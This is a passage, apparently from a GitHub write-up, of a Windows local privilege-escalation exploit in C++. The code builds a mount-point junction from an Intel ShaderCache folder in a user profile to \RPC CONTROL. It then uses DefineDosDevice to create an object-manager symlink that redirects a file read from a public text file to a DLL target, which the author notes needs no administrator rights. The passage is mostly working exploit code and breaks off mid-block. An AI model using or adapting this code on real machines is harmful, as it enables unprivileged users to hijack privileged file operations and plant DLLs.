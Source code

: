 ```cpp
    reparseData->ReparseTag = IO_REPARSE_TAG_MOUNT_POINT;
    reparseData->ReparseDataLength = (USHORT)(targetLength + 12);
    reparseData->Reserved = 0;

    reparseData->MountPointReparseBuffer.SubstituteNameOffset = 0;
    reparseData->MountPointReparseBuffer.SubstituteNameLength = (USHORT)targetLength;
    reparseData->MountPointReparseBuffer.PrintNameOffset = (USHORT)(targetLength + sizeof(WCHAR));
    reparseData->MountPointReparseBuffer.PrintNameLength = 0;
    memcpy(reparseData->MountPointReparseBuffer.PathBuffer, targetDir, targetLength);

    // Set the reparse point
    if (!DeviceIoControl(hFile, FSCTL_SET_REPARSE_POINT, reparseData, REPARSE_DATA_BUFFER_HEADER_SIZE + reparseData->ReparseDataLength, NULL, 0, &bytesReturned, NULL)) {
        std::cerr << "Failed to set reparse point: " << GetLastError() << std::endl;
    }
    else {
        std::cout << "Junction created successfully." << std::endl;
    }

    free(reparseData);
    CloseHandle(hFile);
}

 // Create the junction
 CreateJunction(L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", L"\\??\\GLOBALROOT\\RPC CONTROL");

 std::wifstream inFile(L"c:\\users\\public\\recent.txt");

 if (inFile) {
     std::getline(inFile, recentFile);
     inFile.close();

     std::wcout << L"Value read from file: " << recentFile << std::endl;
 }
 else {
     std::wcerr << L"Failed to open recent.txt\n";
 }
```

Next, I'll create an Object Based symlink.  An object-based symlink (short for object manager-based symbolic link) is a type of symbolic link in Windows that exists within the Windows Object Manager namespace rather than the traditional file system.  It's nice because you can create links using the RPC CONTROL global object without requiring administrator privileges to do so.

```cpp
BOOL CreateDosDevice(LPCWSTR deviceName, LPCWSTR targetPath) {
    if (DefineDosDevice(DDD_RAW_TARGET_PATH, deviceName, targetPath)) {
        std::wcout << L"Created DosDevice: " << deviceName << L" -> " << targetPath << std::endl;
        return TRUE;
    }
    else {
        std::cerr << "Failed to create DosDevice: " << GetLastError() << std::endl;
        return FALSE;
    }
}

std::wstring dosDeviceName = L"Global\\GLOBALROOT\\RPC CONTROL\\" + recentFile;

if (CreateDosDevice(dosDeviceName.c_str(), dllTarget.c_str())) {
    std::wcout << L"Symlink created: " << dosDeviceName << L" -> " << dllTarget << std::endl;

}
else {
```
